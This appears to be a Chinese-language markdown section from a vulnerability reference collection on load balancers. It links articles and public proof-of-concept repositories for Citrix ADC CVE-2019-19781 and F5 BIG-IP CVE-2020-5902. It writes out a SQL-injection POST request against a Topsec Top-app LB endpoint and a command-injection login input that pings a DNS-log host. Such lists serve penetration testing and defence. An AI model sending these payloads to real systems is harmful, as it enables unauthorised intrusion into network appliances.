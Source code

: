 
## 负载均衡

**Citrix ADC**
- **CVE-2019-19781 Citrix Gateway/ADC 远程代码执行漏洞**
    - 文章
        - [Citrix Gateway/ADC 远程代码执行漏洞分析](https://www.freebuf.com/news/232752.html)

    - POC | Payload | exp
        - [trustedsec/cve-2019-19781](https://github.com/trustedsec/cve-2019-19781)

**F5 BIG-IP ADC**
- **CVE-2020-5902 F5 BIG-IP 远程代码执行漏洞**
    - 文章
        - [CVE-2020-5902——关于;号绕过认证技巧总结](https://mp.weixin.qq.com/s/JnI4f3R5JZqhLFv_fTQ_0A)
        - [F5 BIG-IP Remote Code Execution Exploit - CVE-2020-5902 | Critical Start](https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/)

    - POC | Payload | exp
        - [jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)
        - [theLSA/f5-bigip-rce-cve-2020-5902](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902)

**天融信 Top-app LB**
- **SQL注入漏洞**
    - POC | Payload | exp
        - [天融信Top-app LB负载均衡SQL注入漏洞](https://www.hedysx.com/2601.html)
            ```
            POST /acc/clsf/report/datasource.php HTTP/1.1
            Host:
            Connection: close
            Accept: text/javascript, text/html, application/xml, text/xml, */*
            X-Prototype-Version: 1.6.0.3
            X-Requested-With: XMLHttpRequest
            User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
            Sec-Fetch-Site: same-origin
            Sec-Fetch-Mode: cors
            Sec-Fetch-Dest: empty
            Accept-Encoding: gzip, deflate
            Accept-Language: zh-CN,zh;q=0.9
            Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 201

            t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- &o=r_Speed&gid=0&lmt=10&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=
            ```
- **未授权**
    - POC | Payload | exp
        - [天融信负载均衡TopApp-LB系统无需密码直接登陆](https://www.uedbox.com/post/21626/)
            ```
            登录框
            ; ping xxx.dnslog.info; echo
            ```
